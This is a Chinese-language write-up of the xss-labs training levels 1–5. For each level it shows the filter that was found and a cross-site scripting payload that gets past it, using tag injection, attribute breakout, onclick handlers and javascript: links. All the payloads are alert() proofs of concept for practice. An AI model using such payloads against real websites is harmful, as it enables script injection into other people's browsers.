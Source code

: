 ## xss-labs level 1-5

### level1

代码中没有对输入进行任何过滤，在参数中输入任意代码即可

```html
<script>alert('level1')</script>
```



### level2

输入第一关的代码进行测试，发现没有成功

右键查看源码，发现输入的内容被放在 input 标签的 value属性里：

```html
<input name=keyword  value="<script>alert("level2")</script>">
```



可以构造代码，闭合掉inout标签，然后注入代码：

```html
"/><script>alert("level2")</script>
```



### level3

输入第一关的代码进行测试，失败后查看源码：

```html
<input name=keyword  value='&lt;script&gt;alert('level1')&lt;/script&gt;'>	
```



发现 `< >` 的部分都被转义了，可以通过使用事件函数来触发：

```html
' onclick='alert(/level3/)
```



### level4

输入第一关的代码进行测试，失败后查看源码：

```html
<input name=keyword  value="scriptalert('level1')/script">
```



发现 `< >` 的部分都被替换了，同样可以通过使用事件函数来触发：

注意这一关闭合双双引号！

```html
" onclick="alert(/level4/)
```



### level5

输入第一关的代码进行测试，失败后查看源码：

```html
<input name=keyword  value="<scr_ipt>alert('level1')</script>">
```



发现 script 部分被过滤，尝试使用事件注入

```html
<input name=keyword  value="" o_nclick="alert(/level5/)">
```

onclick 也被过滤，但是其中的 `<>` 没有被过滤，可以尝试使用a标签注入：

```html
"/> <a href="javascript:alert(/level5/)">level5</a>
```